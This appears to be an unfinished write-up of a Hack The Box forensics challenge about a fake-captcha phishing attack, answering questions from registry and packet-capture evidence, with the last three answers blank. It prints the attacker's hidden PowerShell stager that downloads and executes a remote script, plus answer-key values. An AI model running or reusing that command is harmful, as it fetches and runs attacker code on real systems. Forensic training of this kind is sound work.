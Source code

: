 
##### Sherlock Scenario

Happy Grunwald contacted the sysadmin, Alonzo, because of issues he had downloading the latest version of Microsoft Office. He had received an email saying he needed to update, and clicked the link to do it. He reported that he visited the website and solved a captcha, but no office download page came back. Alonzo, who himself was bombarded with phishing attacks last year and was now aware of attacker tactics, immediately notified the security team to isolate the machine as he suspected an attack. You are provided with network traffic and endpoint artifacts to answer questions about what happened.


Q1: It is crucial to understand any payloads executed on the system for initial access. Analyzing registry hive for user happy grunwald. What is the full command that was run to download and execute the stager.

A: powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://43.205.115.44/office2024install.ps1')"

We go to the hive of the indicated user.

![](../../Img/Pasted%20image%2020250513152918.png)

Load it and go to bookmark.
Under RunMRU we find it.

![](../../Img/Pasted%20image%2020250513153145.png)

Q2: At what time in UTC did the malicious payload execute?

A: 2024-09-23 05:07:45

In the Q1 screenshot.

Q3: The payload which was executed initially downloaded a PowerShell script and executed it in memory. What is sha256 hash of the script?

A: 579284442094e1a44bea9cfb7d8d794c8977714f827c97bcb2822a97742914de

To get the hash i need the file, to get the file we use wireshark to open the pcapng file and search.
One of the only 2 things that i have is the ip, so we use as filter.
Looking through the packets we spot the 2nd thing that we know, the file name.

![](../../Img/Pasted%20image%2020250513153952.png)

After checking that the download name it's the same as the execution name, we search for it in Export HTTP.

![](../../Img/Pasted%20image%2020250513154311.png)

Get the hash.

![](../../Img/Pasted%20image%2020250513154506.png)

Q4: To which port did the reverse shell connect?

A: 

Q5: For how many seconds was the reverse shell connection established between C2 and the victim's workstation?

A: 

Q6: Attacker hosted a malicious Captcha to lure in users. What is the name of the function which contains the malicious payload to be pasted in victim's clipboard?

A: 
